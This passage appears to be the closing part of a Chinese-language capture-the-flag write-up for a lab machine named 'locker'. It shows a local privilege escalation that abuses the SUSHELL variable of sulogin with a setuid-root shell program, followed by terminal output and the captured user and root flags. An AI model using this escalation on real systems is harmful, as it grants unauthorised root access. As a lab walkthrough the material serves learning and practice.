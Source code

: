 发现环境变量 `SUSHELL` 可以控制 `sulogin` 的行为，尝试编写一个程序进行利用

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

编译好之后，上传到靶机，然后设置环境变量

```bash
export SUSHELL=/tmp/a.out
```

即可进行提权

```bash
(remote) www-data@locker:/tmp$ export SUSHELL=/tmp/a.out
(remote) www-data@locker:/tmp$ echo $SUSHELL
/tmp/a.out
(remote) www-data@locker:/tmp$ sulogin -e
Press Enter for maintenance
(or press Control-D to continue): 
root@locker:~# whoami
root
```

## user pwned

```bash
root@locker:/home/tolocker# cat user.txt 
flaglockeryes
```

## root pwned

```bash
root@locker:~# cat root.txt 
igotroothere
```
